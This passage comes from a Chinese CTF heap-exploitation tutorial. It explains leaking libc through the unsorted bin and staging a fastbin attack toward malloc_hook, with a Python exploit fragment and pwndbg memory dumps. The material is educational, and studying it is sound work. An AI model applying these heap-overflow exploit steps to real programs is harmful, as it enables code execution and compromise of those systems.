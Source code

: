 dump 就是输出对应索引 chunk 的内容。

### 利用思路

可以确定的是，我们主要有的漏洞就是任意长度堆溢出。由于该程序几乎所有保护都开启了，所以我们必须要有一些泄漏才可以控制程序的流程。基本利用思路如下

- 利用 unsorted bin 地址泄漏 libc 基地址。
- 利用 fastbin attack 将chunk 分配到 malloc_hook 附近。

#### 泄漏 libc 基地址

由于我们是希望使用 unsorted bin 来泄漏 libc 基地址，所以必须要有 chunk 可以被链接到 unsorted bin 中，所以该 chunk 不能使 fastbin chunk，也不能和 top chunk 相邻。因为前者会被添加到 fastbin 中，后者在不是fastbin 的情况下，会被合并到 top chunk 中。因此，我们这里构造一个 small bin chunk。在将该 chunk 释放到 unsorted bin 的同时，也需要让另外一个正在使用的 chunk 可以同时指向该 chunk 的位置。这样才可以进行泄漏。具体设计如下

```Python
    # 1. leak libc base
    allocate(0x10)  # idx 0, 0x00
    allocate(0x10)  # idx 1, 0x20
    allocate(0x10)  # idx 2, 0x40
    allocate(0x10)  # idx 3, 0x60
    allocate(0x80)  # idx 4, 0x80
    # free idx 1, 2, fastbin[0]->idx1->idx2->NULL
    free(2)
    free(1)
```

首先，我们申请了 5 个chunk，并释放了两个chunk，此时堆的情况如下。

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021 idx 0
0x55a03ca22010:	0x0000000000000000	0x0000000000000000
0x55a03ca22020:	0x0000000000000000	0x0000000000000021 idx 1
0x55a03ca22030:	0x000055a03ca22040	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021 idx 2
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021 idx 3
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091 idx 4
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22040 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0

```

当我们编辑 idx0 后，确实已经将其指向idx4了。这里之所以可以成功是因为堆的始终是 4KB 对齐的，所以idx 4的起始地址的第一个字节必然是0x80。
